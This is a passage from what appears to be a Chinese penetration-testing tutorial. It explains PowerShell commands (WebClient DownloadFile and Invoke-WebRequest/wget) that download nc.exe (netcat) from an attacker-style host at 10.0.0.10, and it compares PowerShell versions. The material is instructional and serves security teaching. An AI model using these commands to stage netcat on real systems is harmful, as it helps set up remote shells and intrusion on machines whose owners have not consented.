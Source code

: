 1. `(New-Object System.Net.WebClient)` – 创建WebClient类的实例。WebClient对象就像其他图形界面的Web客户端一样，具有所有相关的功能

2. `DownloadFile("` – 调用WebClient类的DownloadFile方法。该方法允许WebClient从远程服务器下载文件

3. `http://10.0.0.10` – 通过HTTP协议从IP地址为10.0.0.10的主机下载文件

4. `/nc.exe"` – 下载nc.exe文件

5. `,"nc.exe")` – 下载的文件保存为nc.exe

**PowerShell Invoke-WebRequest**



```
`wget "http://10.0.0.10/nc.exe" -outfile "nc.exe"`
```

[![](https://p4.ssl.qhimg.com/t011f824326ca0e78e3.png)](https://p4.ssl.qhimg.com/t011f824326ca0e78e3.png)

在较新版本的PowerShell中，可以使用[Invoke-WebRequest](https://msdn.microsoft.com/powershell/reference/5.1/microsoft.powershell.utility/Invoke-WebRequest)命令。此外，该命令还有一个别名**wget**，使用方法和Unix系统中的**wget**基本一样。



**命令分解**

1. `wget` – web get的简称。使用wget可以通过HTTP、HTTPS和FTP协议下载文件

2. `"10.0.0.10` – 通过HTTP协议从IP地址为10.0.0.10的主机下载文件

3. `/nc.exe"` – 下载nc.exe文件

4. `-outfile "nc.exe"` – 下载的文件保存为nc.exe

Windows PowerShell从3.0版本开始引入了[Invoke-WebRequest](https://msdn.microsoft.com/powershell/reference/5.1/microsoft.powershell.utility/Invoke-WebRequest)命令。运行`Get-Host`命令或者`$PSVersionTable.PSVersion`命令可以确定当前环境中的PowerShell版本。后者显示的版本号更精确，但是通常情况下，这两条命令显示的信息都够用了。

**显示PowerShell版本**

`Get-Host`或者`$PSVersionTable.PSVersion`

Windows 7 – PS 2.0**结果如下图所示：

[![](https://p1.ssl.qhimg.com/t01959e0372adac7ba9.png)](https://p1.ssl.qhimg.com/t01959e0372adac7ba9.png)

Windows 10 – PS 5.1**结果如下图所示：

[![](https://p3.ssl.qhimg.com/t018836ea72259e9a60.png)](https://p3.ssl.qhimg.com/t018836ea72259e9a60.png)

从2009年10月发布的Windows 7和Windows Server 2008 R2系统开始，PowerShell作为Windows系统预装组件随系统一起发布。不幸的是，Windows 7预装的PowerShell是2.0版本的，而许多功能强大的命令如**Invoke-WebRequest** (**wget**)一直到3.0版本的PowerShell才被引入。2012年8月，随着Windows 8和Windows Server 2012的发布，PowerShell 3.0成为标准操作系统构建的一部分。在撰写本文时，现代Windows 10操作系统默认预装了5.0版本的PowerShell。

大多数情况下，使用PowerShell进行渗透测试时，版本之间的主要区别在于2.0版本和3.0以上的版本。在2.0版本中，许多命令行需要直接通过.Net构造函数去实例化对象，如第一个示例中Windows 7版的WebClient中通过**New-Object**的方式一样。在3.0以上的版本中，许多功能已被创建并集成为独立的命令，使用起来更加直观明了。

<br>
